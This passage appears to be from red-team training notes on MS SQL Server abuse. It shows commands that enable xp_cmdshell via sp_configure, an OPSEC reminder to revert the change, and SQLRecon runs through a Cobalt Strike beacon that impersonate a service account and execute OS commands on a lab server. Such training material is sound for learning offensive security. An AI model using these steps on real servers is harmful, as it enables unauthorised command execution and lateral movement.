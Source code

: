 **The same will fail if you try manually in Heidi or mssqlclient, because xp\_cmdshell is disabled:**

```
SQL> EXEC xp_cmdshell 'whoami';
[-] ERROR(SQL-2): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server.
```

**To enumerate the current state of xp\_cmdshell, use:**

```
SELECT value FROM sys.configurations WHERE name = 'xp_cmdshell';
```

![](https://files.cdn.thinkific.com/file_uploads/584845/images/406/8c2/83c/xpcmdshell-disabled.png)

**A value of&#x20;**_**0**_**&#x20;shows that xp\_cmdshell is disabled. To enable it:**

```
sp_configure 'Show Advanced Options', 1; RECONFIGURE;
sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

**Query sys.configurations again and the xp\_cmdshell value should be&#x20;**_**1**_**; and xp\_cmdshell will also now work:**

![](https://files.cdn.thinkific.com/file_uploads/584845/images/d9c/f07/b8a/xpcmdshell.png)

{% hint style="danger" %}
**OPSEC**\
\
**If you're going to make this type of configuration change to a target, you must ensure you set it back to its original value afterwards.**\
\
The reason this works with `Invoke-SQLOSCmd` is because it will automatically attempt to enable xp\_cmdshell if it's not already, execute the given command, and then disable it again.  This is a good example of why you should study your tools before you use them, so you know what is happening under the hood.
{% endhint %}

**SQLRecon also has a module for interacting with the xp\_cmdshell configuration, which can also be combined with the impersonation module:**

```
execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ienablexp /i:DEV\mssql_svc

[*] Enabling xp_cmdshell as 'DEV\mssql_svc' on sql-2.dev.cyberbotic.io,1433
[+] SUCCESS: Enabled xp_cmdshell on sql-2.dev.cyberbotic.io,1433.
name | value | 
---------------
xp_cmdshell | 1 |

beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ixpcmd /i:DEV\mssql_svc /c:ipconfig

[*] Executing 'ipconfig' as 'DEV\mssql_svc' on sql-2.dev.cyberbotic.io,1433.
output | 
---------
 | 
Windows IP Configuration | 
 | 
 | 
Ethernet adapter Ethernet: | 
 | 
   Connection-specific DNS Suffix  . : ec2.internal | 
   IPv4 Address. . . . . . . . . . . : 10.10.122.25 | 
```